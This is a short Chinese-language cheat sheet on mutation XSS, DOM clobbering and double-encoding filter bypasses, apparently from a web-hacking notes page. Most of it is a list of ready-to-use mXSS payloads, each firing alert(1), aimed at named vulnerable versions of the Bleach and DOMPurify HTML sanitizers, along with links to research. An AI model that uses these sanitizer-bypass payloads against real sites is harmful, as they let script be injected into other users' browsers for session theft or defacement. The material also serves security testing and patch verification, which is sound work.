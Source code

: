 
### mXSS(mutation XSS) and DOM Clobbering (破壞)
XSS filters 基本上不可能正確預測 HTML 被瀏覽器和交互式 library mutated 的每一種方式
- 所以有時可以把 XSS 的 payload 作為無效的 HTML 偷偷放進去
- 而瀏覽器和 sanitizer 會把它修正為有效的 payload，這就繞過了所有的 filtering



有很多細節的 mXSS 論文：
- https://cure53.de/fp170.pdf

有關於 clobbering 的一場 talk：
- https://www.youtube.com/watch?v=5W-zGBKvLxk


### 消毒器(Sanitizer)繞過 mXSS的 payload 
注意: `mXSS` 可能與瀏覽器有關，所以也要嘗試多種瀏覽器

[Bleach <=3.1.1](https://securityboulevard.com/2020/07/mutation-cross-site-scripting-mxss-vulnerabilities-discovered-in-mozilla-bleach/)

```html
<noscript><style></noscript><img src=x onerror=alert(1)>
```
```html
<svg><style><img src=x onerror=alert(1)></style></svg>
```


[DOMPurify <2.1](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)
(注：我不得不對一些內容進行調整，以使其發揮作用)

```html
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```
```html
<math><mtext><table><mglyph><style><![CDATA[</style><img title="]]&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```
```html
<math><mtext><table><mglyph><style><!--</style><img title=&quot;--></mglyph><img	src=1	onerror=alert(1)>">
```

[DOMPurify <2.0.1](https://research.securitum.com/dompurify-bypass-using-mxss/)  

```html
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
```
```html
<svg><p><style><a id="</style><img src=1 onerror=alert(1)>"></p></svg>
```


### 雙重 encoding
很簡單
- 有時 app 會在一個 string 上執行 XSS filtering，然後再解碼一次，這就使它被過濾器繞過
- 這是很罕見的，但我認識的一些 bug hunters 對它發誓，所以我把它包括進來作為參考
